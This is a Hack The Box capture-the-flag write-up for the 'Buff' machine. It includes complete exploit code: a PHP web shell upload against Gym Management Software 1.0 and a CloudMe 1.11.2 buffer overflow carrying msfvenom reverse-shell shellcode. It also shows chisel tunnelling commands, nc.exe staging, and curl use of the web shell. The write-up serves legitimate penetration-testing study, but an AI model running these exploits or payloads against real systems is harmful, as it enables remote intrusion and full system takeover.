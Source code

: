 ```yaml
---
image: /assets/avatars/buff.png
title: Buff Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/buff.png"> Writeup for Buff (Hackthebox)
---
```


# Buff

As always, an `nmap` scan is mandatory:

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.198
...
Nmap scan report for 10.10.10.198
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

Enumerating more ports, we can find:

```bash
sudo nmap -sC -sV -oN nmap/full -p- 10.10.10.198
...
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
```

Going to port 8080, we find a gym website:

![image-20201022200250269](/assets/buff/image-20201022200250269.png)

There is a login form, but before trying anything, we should fuzz around. In `contacts.php`, there is an important information about the framework used: "Gym Management Software 1.0". Looking with `searchsploit` or with a simple Google search, we find a [good unauthenticated](https://www.exploit-db.com/exploits/48506) RCE to use.

So, the point is that this software does not check for an authenticated user session when accessing `/upload.php`, so we can upload a file containing PHP code with a double extension to trick the extension white-list and with a custom Content-type to trick the mime checker. More info in [the exploit-db page](https://www.exploit-db.com/exploits/48506).

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/lolz.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=lolz'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'much-lolz.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Then run it:

```bash
python2 ./48505.py "http://10.10.10.198:8080/"
```

![image-20201022233828363](/assets/buff/image-20201022233828363.png)

If you immediately want the user flag, you should run this command.

```bash
curl -G --data-urlencode "telepathy=type C:\\Users\\shaun\\Desktop\\user.txt" "http://10.10.10.198:8080/upload/lolz.php"
```

So, you can put `nc.exe` in the target machine starting a python server on the attacker, using:

```bash
python3 -m http.server
```

You can find `nc.exe` in the package "windows-binaries" `/usr/share/windows/windows-binaries` (may vary).

Enumerate with [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and look at `shaun`'s download folder, there you can find `CloudMe_1112.exe`, with a `searchsploit` we can find the [great privesc exploit](https://www.exploit-db.com/exploits/48389). We have to edit some infos

```bash
# Put the output in the python file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
```

So in the end the python file should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
payload =  b""
payload += b"\xda\xc0\xba\x4c\x4d\xf4\xbe\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x1a"
payload += b"\x5e\x16\x4b\x5e\x88\x54\xb4\x9e\x49\x39\x3c\x7b"
payload += b"\x78\x79\x5a\x08\x2b\x49\x28\x5c\xc0\x22\x7c\x74"
payload += b"\x53\x46\xa9\x7b\xd4\xed\x8f\xb2\xe5\x5e\xf3\xd5"
payload += b"\x65\x9d\x20\x35\x57\x6e\x35\x34\x90\x93\xb4\x64"
payload += b"\x49\xdf\x6b\x98\xfe\x95\xb7\x13\x4c\x3b\xb0\xc0"
payload += b"\x05\x3a\x91\x57\x1d\x65\x31\x56\xf2\x1d\x78\x40"
payload += b"\x17\x1b\x32\xfb\xe3\xd7\xc5\x2d\x3a\x17\x69\x10"
payload += b"\xf2\xea\x73\x55\x35\x15\x06\xaf\x45\xa8\x11\x74"
payload += b"\x37\x76\x97\x6e\x9f\xfd\x0f\x4a\x21\xd1\xd6\x19"
payload += b"\x2d\x9e\x9d\x45\x32\x21\x71\xfe\x4e\xaa\x74\xd0"
payload += b"\xc6\xe8\x52\xf4\x83\xab\xfb\xad\x69\x1d\x03\xad"
payload += b"\xd1\xc2\xa1\xa6\xfc\x17\xd8\xe5\x68\xdb\xd1\x15"
payload += b"\x69\x73\x61\x66\x5b\xdc\xd9\xe0\xd7\x95\xc7\xf7"
payload += b"\x18\x8c\xb0\x67\xe7\x2f\xc1\xae\x2c\x7b\x91\xd8"
payload += b"\x85\x04\x7a\x18\x29\xd1\x2d\x48\x85\x8a\x8d\x38"
payload += b"\x65\x7b\x66\x52\x6a\xa4\x96\x5d\xa0\xcd\x3d\xa4"
payload += b"\x23\xf8\xcb\xa8\x80\x94\xc9\xb4\xc5\x4d\x47\x52"
payload += b"\x63\x9e\x01\xcd\x1c\x07\x08\x85\xbd\xc8\x86\xe0"
payload += b"\xfe\x43\x25\x15\xb0\xa3\x40\x05\x25\x44\x1f\x77"
payload += b"\xe0\x5b\xb5\x1f\x6e\xc9\x52\xdf\xf9\xf2\xcc\x88"
payload += b"\xae\xc5\x04\x5c\x43\x7f\xbf\x42\x9e\x19\xf8\xc6"
payload += b"\x45\xda\x07\xc7\x08\x66\x2c\xd7\xd4\x67\x68\x83"
payload += b"\x88\x31\x26\x7d\x6f\xe8\x88\xd7\x39\x47\x43\xbf"
payload += b"\xbc\xab\x54\xb9\xc0\xe1\x22\x25\x70\x5c\x73\x5a"
payload += b"\xbd\x08\x73\x23\xa3\xa8\x7c\xfe\x67\xd8\x36\xa2"
payload += b"\xce\x71\x9f\x37\x53\x1c\x20\xe2\x90\x19\xa3\x06"
payload += b"\x69\xde\xbb\x63\x6c\x9a\x7b\x98\x1c\xb3\xe9\x9e"
payload += b"\xb3\xb4\x3b"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We need to run a http reverse tunnel using [chisel](https://github.com/jpillora/chisel/releases):

```bash
# On attacker
./chisel-linux server -p 8080 -reverse
```

![image-20201023002602151](/assets/buff/image-20201023002602151.png)

```powershell
# On victim
.\chisel.exe client 10.10.14.51:8080 R:8888:127.0.0.1:8080
```

![image-20201023002643050](/assets/buff/image-20201023002643050.png)

Now we can run the exploit on attacher machine!

![image-20201023025910927](/assets/buff/image-20201023025910927.png)

Hopping to another shell we have to wait for connections on netcat, then run the exploit above! We'll get a reverse shell as root :) so... profit.
